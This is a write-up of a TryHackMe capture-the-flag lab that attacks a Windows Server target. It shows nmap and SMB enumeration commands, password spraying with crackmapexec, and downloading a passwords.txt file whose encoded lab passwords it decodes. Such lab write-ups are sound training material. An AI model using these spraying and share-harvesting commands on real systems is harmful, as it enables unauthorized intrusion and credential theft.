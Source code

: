 # Penetration Test Summary: TryHackMe - Relevant

**Target IP:** 10.10.186.89
**Assessment Type:** Black-box Penetration Test
**Objective:** Obtain user.txt and root.txt flags
**OS Detected:** Windows Server 2016 Standard Evaluation (x64)


## Initial Reconnaissance

**Nmap Scan Command:**

```bash
sudo nmap 10.10.186.89
```

**Open Ports Identified:**

* 80/tcp – HTTP (IIS Web Server)
* 135/tcp – Microsoft RPC
* 139/tcp, 445/tcp – SMB/NetBIOS
* 3389/tcp – RDP (Network Level Authentication enabled)

Initial enumeration suggested a Windows Server environment with SMB and RDP as high-value targets. Port 80 hosted a default IIS web page with no obvious attack surface.


## SMB Enumeration & Weak Credential Discovery

**Anonymous SMB Access Attempt:**

```bash
smbmap -H 10.10.186.89
enum4linux -a 10.10.186.89
nmap --script smb-enum-users.nse -p445 10.10.186.89
```

**Result:** Anonymous enumeration restricted. No users or shares discovered.

---

## Credential Spraying (SMB)

**Tool Used:** crackmapexec

```bash
crackmapexec smb 10.10.186.89 -u users.txt -p top100.txt --continue-on-success
```

**Valid Credentials Found:**

```
Relevant\user
Relevant\admin
Relevant\test
Relevant\info
Relevant\adm
Relevant\mysql
Relevant\oracle
Relevant\ftp
Relevant\pi
Relevant\puppet
Relevant\ansible
Relevant\ec2-user
Relevant\vagrant
Relevant\azureuser
```


## Access to SMB Share: nt4wrksv

**SMB Share Enumeration:**

```bash
smbclient -L //10.10.186.89/ -U user
```

**Shares Accessible:**

* ADMIN\$ – Remote Admin (restricted)
* C\$ – Default drive (restricted)
* IPC\$ – Interprocess comms
* nt4wrksv – Custom share (accessible)

**Downloaded Credentials from Share:**

```bash
smbclient //10.10.186.89/nt4wrksv -U user
get passwords.txt
```

**Contents of passwords.txt:**

```
[User Passwords - Encoded]

Qm9iIC0gIVBAJCRXMHJEITEyMw== → Bob - !P@$W0rD!123  
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk → Bill - Juw4nnaM4n4206969!$$  
```

Password reuse or weak default credentials discovered.


## Valid SMB Access as User: bill

```bash
smbclient -L //10.10.186.89/ -U bill
```

**Access Granted To:**

* ADMIN\$, C\$ (listed, but restricted)
* nt4wrksv – accessible again with the same contents

Bill's credentials provided valid user-level access but did not grant elevated permissions.


## Summary

| Vector   | Result                          |
| -------- | ------------------------------- |
| SMB      | Credential reuse → valid logins |
| HTTP     | IIS default page only           |
| RDP      | Live with NLA enabled           |
| Priv Esc | Pending                         |
